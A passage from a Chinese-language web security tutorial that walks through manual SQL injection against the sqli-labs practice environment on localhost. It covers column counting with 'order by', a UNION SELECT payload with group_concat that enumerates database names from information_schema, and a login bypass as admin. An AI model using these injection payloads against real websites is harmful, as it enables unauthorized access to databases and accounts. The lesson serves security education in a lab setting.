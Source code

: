+----+----------------+----------+
15 rows in set (0.00 sec)
</code></pre>
<p data-nodeid="53449">（5）尝试用密码 hacker 登录账号 admin，如下所示，登录成功！</p>
<p data-nodeid="53450"><img src="https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7wKAQr6TAAE5rTn8WyU344.png" alt="Drawing 6.png" data-nodeid="53674"></p>
<div data-nodeid="53451"><p style="text-align:center">图 7： 登录成功</p></div>
<p data-nodeid="53452">你看，从前面一步步地寻找漏洞，到发现 SQL 注入漏洞，并成功利用漏洞登录账号，哪怕不知道正确的密码是什么，也可以登录，这正是 SQL 注入神奇的地方所在。</p>
<h3 data-nodeid="53453">手工注入</h3>
<p data-nodeid="53454">为了让你更好地理解 SQL 注入漏洞的利用，我会一步步地构造注入参数去利用漏洞，直到最终拿到账号密码，这样在后面通过工具自动化利用时，你也能更容易地理解其背后的逻辑。</p>
<p data-nodeid="53455">在注入的过程中，常用到的会有以下几个步骤：获取字段数、枚举系统数据库名、获取当前数据库名、枚举数据库中的表名、枚举表中的字段名、获取字段值、盲注猜解字符串。这些步骤并不是一定的，我只是列举了一些比较常用的，希望对你能有所帮助。</p>
<p data-nodeid="53456"><strong data-nodeid="53682">（1）获取字段数</strong></p>
<p data-nodeid="53457">在“第06讲”中我讲到了“<strong data-nodeid="53688">联合查询注入</strong>”，我们使用 Union 查询注入爆出了账号和密码，但那是已知字段名的情况下。</p>
<p data-nodeid="53458">在真实的漏洞利用场景中，我们需要自己通过 SQL 注入获取字段名，在此之前还得去获取字段数。前面使用的是 union select 1,2,3... 的方式不断追加查询的字段数来猜测，但如果业务就有很多的字段数，这个方法就有点烦琐了。因此，这里介绍另一种更加简便的方法。</p>
<p data-nodeid="53459">通过 order 做字段排序，可以猜解出正确的字段数：</p>
<pre class="lang-sql" data-nodeid="53460"><code data-language="sql">order by n   <span class="hljs-comment"># 通过不断尝试 n 的值直到出错，那么正确字段数就是 n-1</span>
</code></pre>
<p data-nodeid="53461">这种方法有时会用来判断是否存在 SQL 注入漏洞，同时在使用联合查询方法时，也可以用来获取读取数据。</p>
<p data-nodeid="53462">以 sqli-labs 第 2 题为例，构建以下两个不同的请求会发现返回结果是不一样的，当使用利用“1 order by 3”作为 id 参数时，其返回正常；但当使用“1 order by 4”时却返回错误了：</p>
<pre class="lang-sql" data-nodeid="53463"><code data-language="sql">正常：http://localhost/Less-2?id=1 order by 3<span class="hljs-comment">--+</span>
错误：http://localhost/Less-2?id=1 order by 4<span class="hljs-comment">--+，提示“Unknown column '4' in 'order clause'”</span>
</code></pre>
<p data-nodeid="53464">这就说明正确的字段数是 3，因为当用于排序的字段数大于总字段数时会出错。</p>
<p data-nodeid="53465"><strong data-nodeid="53697">（2）枚举系统数据库名</strong></p>
<p data-nodeid="53466">网站上可能会有多个数据库，为了更直接地查看包含业务数据的数据库，我们先枚举出系统的数据库名，然后根据数据库名来猜测有敏感信息的可能性，再针对那个数据库进行测试。</p>
<p data-nodeid="53467">在版本号 5.0 以上的 MySQL 中，数据库名存放在 information_schema 数据库下的 schemata 表的 schema_name 字段中：</p>
<pre class="lang-sql" data-nodeid="53468"><code data-language="sql">mysql&gt; select null,null,schema_name from information_schema.schemata;
+------+------+--------------------+
| NULL | NULL | schema_name&nbsp; &nbsp; &nbsp; &nbsp; |
+------+------+--------------------+
| NULL | NULL | information_schema |
| NULL | NULL | challenges&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;|
| NULL | NULL | mysql&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; |
| NULL | NULL | performance_schema |
| NULL | NULL | security&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;|
+------+------+--------------------+
5 rows in set (0.00 sec)
</code></pre>
<p data-nodeid="53469">从第一步我们得知字段数是 3 个，那么我们就可以通过 select 读取这 3 个字段的内容。由于这里的测试题目，在网页上只显示 1 个字段值，所以我们可以用 group_concat 函数将所有的数据库名连接起来，一次性地将多个字段值放在一个字段中显示。这里我把它放在了第 3 个字段中：</p>
<pre class="lang-sql" data-nodeid="53470"><code data-language="sql">http://localhost/Less-2/?id=0 union <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-number">2</span>,<span class="hljs-keyword">group_concat</span>(schema_name) <span class="hljs-keyword">from</span> information_schema.schemata
</code></pre>
<p data-nodeid="54748" class=""><img src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7-qAIZdsAADRujoDa5o025.png" alt="图片8.png" data-nodeid="54752"></p>
<div data-nodeid="54749"><p style="text-align:center">图 8： 系统数据库名</p></div>
